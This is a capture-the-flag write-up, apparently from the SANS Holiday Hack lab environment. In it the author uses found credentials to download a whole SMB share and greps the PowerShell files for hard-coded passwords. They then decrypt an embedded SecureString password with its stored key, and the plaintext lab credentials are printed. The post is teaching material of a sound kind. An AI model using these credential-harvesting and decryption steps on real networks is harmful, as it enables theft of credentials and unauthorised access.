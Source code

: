# Yaaarrr! (Time to Plunder)

Now that I had a new set of credentials (`elf_svc:Snow2021!`), it was time to see what I could do with it. After some poking around, I discovered that with my new creds I can access the `//10.128.3.30/elfu_svc_shr` share via SMB! Opening it up with `smbclient`, I noticed that it contained a bunch of powershell files.

![SMB](/img/obj8-8/img1.png)

I downloaded them all to the local dir with:

- `prompt off` -- To turn off the "Are you sure?" prompt
- `mget *.*` -- Download absolutely everything


Now that I had the files stored locally, I could simply `grep` through everything. This was useful because now I can look for any hard-coded passwords or anything similar.

Searching for "passw" gave me a bunch of things, but I wanted to narrow it down more.

`grep -i passw *`

Then I remembered, Storing a password in Powershell generally calls upon the usage of converting text to a `SecureString` with `ConvertTo-SecureString` so I searched for that:

`grep 'ConvertTo-SecureString' *`

And I got a bit less. Some interesting files I particularly liked was `Encryption.ps1` and `HelperFunctions.ps1`, but after manually looking through everyone I discovered an interesting file: `GetProcessInfo.ps1`:

```powershell
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock { Get-Process } -Credential $aCred -Authentication Negotiate
```

This simply invokes the `Get-Process` command on the `10.128.1.53` host. However the password apparently seems to be encrypted. I've seen this particular method performed before, and honestly I don't understand why it's even used since decrypting it is trivial. So trivial, I can show you right here. I'll simply write the following Powershell script:

```powershell
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
$aCred.GetNetworkCredential() | fl
```

With the above, I can run everything up to the `$aCred` line and then just print out the password!

![Printing the Creds](/img/obj8-8/img2.png)


Executing the above shows:

```text
UserName       : remote_elf
Password       : A1d655f7f5d98b10!
SecurePassword : System.Security.SecureString
Domain         : elfu.local
```

New credentials! What wonderous things will *you* unlock now?